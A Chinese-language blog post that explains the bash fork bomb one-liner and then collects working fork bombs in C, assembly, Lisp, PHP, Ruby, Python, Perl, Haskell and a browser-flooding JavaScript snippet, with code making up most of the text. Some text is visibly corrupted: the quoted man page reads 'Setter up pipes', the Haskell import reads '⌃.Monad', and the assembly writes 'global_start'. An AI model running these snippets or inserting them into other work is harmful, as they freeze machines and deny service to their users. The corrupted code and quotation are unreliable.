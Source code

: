 ```yaml
---
title: "Fork Bomb"
category: "UNIX"
img: "unix.jpg"
tags: [UNIX/Linux,Fork,Fork Bomb,Virus]
---
```

最开始知道 Fork Bomb 这个名词，是因为这样一句代码:

```sh
:() { :|:& }; :
```

乍看之下它是那么诡异又极具魅力，fork 这个东西相信大家也都不陌生，在 UNIX/Linux 中 man 指令对 fork() 的解释为:

> Fork() causes creation of a new process.  The new process (child process) is an exact copy of the calling process (parent process) except for the following:
>
* The child process has a unique process ID.

* The child process has a different parent process ID (i.e., the process ID of the parent process).

* The child process has its own copy of the parent's descriptors.  These descriptors reference the same underlying objects, so that, for instance, file pointers in file objects are shared between the child and the parent, so that an lseek(2) on a descriptor in the child process can affect a subsequent read or write by the parent.  This descriptor copying is also used by the shell to establish standard input and output for newly created processes as well as to Setter up pipes.

* The child processes resource utilizations are Setter to 0; see setrlimit(2).

也就是说， Fork Bomb 的基本思路就是无限循环创建子进程(或者类似的操作)。下面来分析一下开头提到的代码，其实它很简单，那个迷惑人的冒号 (`:`) 只是一个函数名，我们把它替换成 func 再来看看:

```sh
func() { func|func& }; func
```

然后，再加几个换行:

```sh
func(){
	func|func&
};
func
```

现在，它又回到了一个极其普通的函数应有的样子。接下来我们将它改为更简短的脚本形式:

```sh
#!/bin/bash
$0|$0&
```

如果你有兴趣，我们也可以用其他语言来实现同样或类似的效果:

## C

首先当然是大家熟知的 C:

```c
#include <unistd.h>

int main() {
    while(fork());
}
```


## 汇编

还有更古老的汇编，当然，不是 ARM:

```sh
section .text
    global_start

_start:
    mov eax,2
    int 0x80
    jmp _start
```


## Lisp

不走寻常路的 Lisp，以 Common Lisp 为例:
```lisp
(loop (#_fork))
```


## PHP

世界上最好的语言 PHP(CLI):

```php

<?php
	while (true) {
		pcntl_fork();
	}
?>

```


## Ruby

优雅但有点慢的 Ruby:
```ruby
loop { fork { __FILE__ } }
```


## Python

还有 Ruby 的哥哥 Python:
```python
import os
while 1:
	os.fork()
```


## Perl

当然，少不了 Perl，你可以在 shell 中直接执行这句 inline 指令:
```perl
perl -e "fork while fork" &
```


## Haskell

学院派的 Haskell，来一个易懂的版本:
```haskell
import ⌃.Monad (forever)
import System.Posix.Process (forkProcess)

forkBomb = forever $ forkProcess forkBomb
main = forkBomb
```


## JavaScript

甚至还有 JS:
```js
<script>
setInterval(function() {
  var w = window.open();
  w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
}, 10);
</script>
```

当然，一个真正强有力的 Virus 很难做到如此简单，这一切都是建立在已经取得权限的基础上。




